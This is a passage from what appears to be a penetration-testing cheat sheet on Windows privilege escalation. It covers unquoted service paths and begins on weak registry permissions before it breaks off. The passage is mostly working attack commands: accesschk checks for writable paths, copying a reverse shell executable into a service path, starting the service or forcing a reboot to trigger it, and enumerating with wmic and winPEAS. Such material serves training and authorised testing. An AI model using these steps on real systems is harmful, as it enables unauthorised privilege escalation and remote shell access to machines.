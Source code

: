     ```
    > sc qc <unquoted_service_name>
    ```
4.  To check for write rights, use accesschk.exe:

    ```
    > .\accesschk.exe /accepteula -uwdq C:\
    > .\accesschk.exe /accepteula -uwdq "C:\Program Files\"
    > .\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
    ```
5.  Copy the reverse shell executable and rename it appropriately:

    ```
    > copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
    ```
6.  Start a listener on our host (e.g Kali or Parrot), and then start the service to trigger the exploit:

    ```
    > net start <service_name>
    ```


7. If you can't start or restart the service but you can reboot the machine, then you should just restart the machine

```
shutdown.exe -r -f -t 1
```

**Valid executable path Discovery:**

```
wmic service get displayname, pathname
```

**Move the malicious executable:**

```
move filename.exe "c:\program files\service\filename.exe"
```

**Restart the service or the machine.**

### Weak Registry Permissions

Each service has its own entry in the Windows registry. Because registry entries might have ACLs, if the ACL is misconfigured, we could be able to change the configuration of some services even though we can't change the service directly.

#### Weak Registry Permissions Privilege Escalation

1.  To check for service misconfigurations, run winPEAS:

    ```
    > .\winPEASany.exe quiet servicesinfo
    ```
2.  Check if a service has a weak registry entry. We can confirm this with the Get-Acl cmdlet:
